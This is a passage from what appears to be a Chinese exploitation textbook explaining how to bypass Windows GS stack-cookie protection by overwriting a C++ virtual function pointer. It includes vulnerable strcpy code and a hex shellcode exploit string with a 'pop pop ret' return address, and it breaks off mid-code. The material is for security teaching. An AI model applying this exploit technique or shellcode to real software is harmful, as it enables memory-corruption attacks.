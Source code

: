 如果我们直接运行程序，程序会弹出异常对话框，我们使用 VS 调试器进行调试，调试器会报告内存访问冲突，如图 10.2.2 所示。大家注意异常信息中的 0x63756620，这不是一个普通的值，而是字符串“ fuc ”经过 ASCII 码转换后的值（注意倒序），这说明返回地址已经被覆盖。

<img src="images/08/不受GS保护的函数的溢出结果.png" width="480">

### 覆盖虚函数突破GS

回想一下 GS 机制，程序只有在函数返回时，才去检查 Security Cookie，而在这之前是没有任何检查措施的。换句话说如果我们可以在程序检查 Security Cookie 之前劫持程序流程的话，就可以实现对程序的溢出了，而 C++的虚函数恰恰给我们提供了这么一个机会（对于虚函数溢出的原理大家可以参照 6.3 的内容）。

我们将通过以下代码来演示和分析一下如何利用虚函数来绕过 GS 机制。

```c++
#include "stdio.h"
#include"string.h"
class GSVirtual {
	public :
		void gsv(char * src)
		{
			char buf[200];
			strcpy(buf, src);
			vir();
		}
		virtual void vir()
		{
		 	
		}
	};
int main()
{
	GSVirtual test;
	test.gsv(
		"\x04\x2b\x99\x7C" //address of "pop pop ret"
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
```